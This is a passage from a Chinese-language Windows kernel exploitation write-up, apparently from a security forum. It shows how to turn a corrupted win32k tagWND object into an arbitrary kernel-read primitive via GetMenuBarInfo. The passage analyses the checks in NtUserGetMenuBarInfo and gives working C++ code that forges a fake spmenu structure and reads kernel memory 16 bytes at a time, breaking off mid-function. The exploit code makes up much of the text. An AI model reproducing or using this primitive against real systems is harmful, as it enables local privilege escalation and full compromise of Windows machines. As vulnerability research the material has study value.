 #### 3. 封装内核读接口：

我们使用的是 User32!GetMenuBarInfo 函数进行内核读取，因为可以读取 16 个字节（我们使用其中 8 字节），使用 User32!GetMenuBarInfo 函数进行内核读取需要控制 tagWND->spmenu, 所以我们替换了 spmenu。

可以对 tagWND 进行修改后可以使用很多 API 进行读写，不局限于 User32!GetMenuBarInfo。

##### 1. Win32kfull!NtUserGetMenuBarInfo 利用分析：![](https://bbs.pediy.com/upload/attach/202103/17853_PUQRCS6E7FVYA5J.jpg)

*   **第 87 行代码可以看出参数 idObject 需要传入一个 - 3。**
    
*   **第 89 代码处对 tagWnd->Style 做了判断不能包含 WS_CHILD。**
    
*   **第 91 行代码处获取 tagWND->spmenu 信息。**
    
*   **第 104 行代码处参数 idItem 需要传入一个大于 0 值。**
    
*   **第 109 行代码处是一个 tagWND->spmenu->rgItems 指针。**
    
*   **第 118/120/… 行代码处是根据 tagWND->spmenu->rgItems 指针内容读取偏移信息。**  
    满足上面条件后才能实现任意读取内存信息。
    

##### 2. 创建虚假的 spmenu 对象：

```
//My spmenu memory struct For read kernel memory
g_pMyMenu = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0xA0);
*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x98) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x20);
**(ULONG_PTR**)((PBYTE)g_pMyMenu + 0x98) = g_pMyMenu;
*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x28) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x200);
*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x8); //rgItems 1
*(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x28) + 0x2C) = 1; //cItems 1
*(DWORD*)((PBYTE)g_pMyMenu + 0x40) = 1;
*(DWORD*)((PBYTE)g_pMyMenu + 0x44) = 2;
*(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58)) = 0x4141414141414141;

```

##### 3. 控制 User32!GetMenuBarInfo 读取数据：

```
//Read kernel memory for 16 length
void ReadKernelMemoryQQWORD(ULONG_PTR pAddress, ULONG_PTR& ululOutVal1, ULONG_PTR& ululOutVal2)
{
    MENUBARINFO mbi = { 0 };
    mbi.cbSize = sizeof(MENUBARINFO);
 
    RECT Rect = { 0 };
    GetWindowRect(g_hWnd[1], &Rect);
 
    *(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58)) = pAddress - 0x40; //0x44 xItem
    GetMenuBarInfo(g_hWnd[1], -3, 1, &mbi);
 
    BYTE pbKernelValue[16] = { 0 };
    *(DWORD*)(pbKernelValue) = mbi.rcBar.left - Rect.left;
    *(DWORD*)(pbKernelValue + 4) = mbi.rcBar.top - Rect.top;
    *(DWORD*)(pbKernelValue + 8) = mbi.rcBar.right - mbi.rcBar.left;
    *(DWORD*)(pbKernelValue + 0xc) = mbi.rcBar.bottom - mbi.rcBar.top;
 
    ululOutVal1 = *(ULONG_PTR*)(pbKernelValue);
    ululOutVal2 = *(ULONG_PTR*)(pbKernelValue + 8);
 
    /*std::cout
```